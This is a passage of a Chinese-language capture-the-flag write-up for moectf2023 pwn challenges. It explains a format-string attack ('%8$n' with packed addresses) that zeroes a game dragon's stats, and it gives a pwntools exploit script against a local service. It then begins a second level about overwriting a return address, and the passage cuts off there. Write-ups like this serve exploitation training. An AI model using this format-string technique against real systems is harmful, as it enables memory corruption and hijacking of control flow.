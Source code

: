 ![image-20230822211252674](./moectf2023-pwn-wp.assets/image-20230822211252674.png)

![image-20230822211324638](./moectf2023-pwn-wp.assets/image-20230822211324638.png)



接下来我们就要修改龙的血量和攻击。将龙的血量和攻击都修改为0可以在payload的前面写b'%8$n'，刚好4个字符，然后让偏移量加1，指向这4个字符的后面一个位置，后面接要修改的地址。exp:

```python
from pwn import *

parent_path = "/home/user/temp/"
context(os="linux", arch="amd64") 
sh = remote("localhost", 35649)

dragon_addr = 0x804c00c

sh.sendline(b'3')
sleep(2)
pad = b'%8$n' + p32(dragon_addr)
sh.sendline(pad)
sleep(2)

sh.sendline(b'3')
sleep(2)
pad = b'%8$n' + p32(dragon_addr + 4)
sh.sendline(pad)

sh.interactive()
```



## format_level2

在上一题的基础上，这道题打败龙后不会调用success函数。在这道题中没有栈溢出漏洞，所以我们只能将函数的返回地址修改到success函数的地址，这样函数返回后就会执行success函数。

首先可以确定偏移量还是7。用pwndbg在printf下断点：
